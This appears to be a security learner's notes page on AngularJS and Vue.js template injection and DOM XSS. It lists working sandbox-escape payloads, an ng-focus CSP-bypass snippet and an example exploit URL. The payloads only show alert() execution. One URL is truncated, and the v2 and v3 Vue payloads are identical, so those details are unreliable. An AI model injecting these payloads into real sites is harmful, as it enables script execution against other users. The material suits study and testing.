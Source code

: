 __Check more VUE payloads in [portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#vuejs-reflected)__
![image1](Image/xss.png)

## DOM XSS in AngularJS expression

- __When HTML contains ng-app attribute__
  - __you can execute arbitrary JavaScript code__
  - __To get the payloads go to book.hacktricks.xyz__
  - __use any payload in the search bar__
```javascript
{{$on.constructor('alert(1)')()}}
{{constructor.constructor('alert(1)')()}}
<input ng-focus=$event.view.alert('XSS')>

<!-- Google Research - AngularJS -->
<div ng-app ng-csp><textarea autofocus ng-focus="d=$event.view.document;d.location.hash.match('x1') ? '' : d.location='//localhost/mH/'"></textarea></div>
```

## vueJS
- Working payload: `https://vue-client-side-template-injection-example.azu.now.sh/?name=%7B%7Bthis.constructor.constructor(%27alert(%22foo%22)%27)()%7D%`
- A really good post on CSTI in VUE can be found in [portswigger.net](https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets)
  ### v3
    - `{{_openBlock.constructor('alert(1)')()}}`
  
  ### v2
    - `{{_openBlock.constructor('alert(1)')()}}`
